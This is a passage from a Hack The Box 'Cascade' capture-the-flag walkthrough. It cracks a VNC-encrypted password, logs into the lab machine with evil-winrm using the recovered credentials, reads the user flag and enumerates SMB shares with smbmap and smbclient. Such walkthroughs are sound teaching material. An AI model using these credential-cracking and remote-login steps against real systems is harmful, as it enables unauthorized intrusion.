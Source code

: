 Little bit of googling helped me to find this awesome blog [crack-or-decrypt-vnc-server-encrypted-password](https://www.raymond.cc/blog/crack-or-decrypt-vnc-server-encrypted-password/). Which show couple of methods to crack encrypted password. It show a commandline tool called `vncpwn.exe` and we can pass our hex encrypted to string and it will crack it for us. let's download it and try in on my local windows box.

![](/assets/images/htb-writeup-cascade/crack.png)

It cracke our hex successfully and the password is `sT333ve2` . Now we can use `s.smith:sT333ve2` creds to login to the box using `Evil-WinRM`.
```
evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'

Evil-WinRM shell v2.3                                                                                                            
                                                                                                                                 
Info: Establishing connection to remote endpoint                                                                                 
                                                                                                                                 
*Evil-WinRM* PS C:\Users\s.smith\Desktop> hostname
CASC-DC1
*Evil-WinRM* PS C:\Users\s.smith\Desktop> whoami
cascade\s.smith
*Evil-WinRM* PS C:\Users\s.smith\Desktop> gc user.txt
0d6b4def3ebee58df1aea588d860eb88
```
## Reversing
Trying to login into `SMB` using `s.smith` creds show us now we've `READ ONLY` access to the `Audit$` share. lets enumerate it.
```
smbmap -u s.smith -p 'sT333ve2' -H cascade.htb

[+] Finding open SMB ports....
[+] User SMB session establishd on cascade.htb...
[+] IP: cascade.htb:445 Name: cascade.htb                                       
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        Audit$                                                  READ ONLY
        C$                                                      NO ACCESS
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS
        NETLOGON                                                READ ONLY
        print$                                                  READ ONLY
        SYSVOL                                                  READ ONLY
```
```
smbclient -U s.smith  //10.10.10.182/Audit$

Enter WORKGROUP\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> recurse
smb: \> ls
```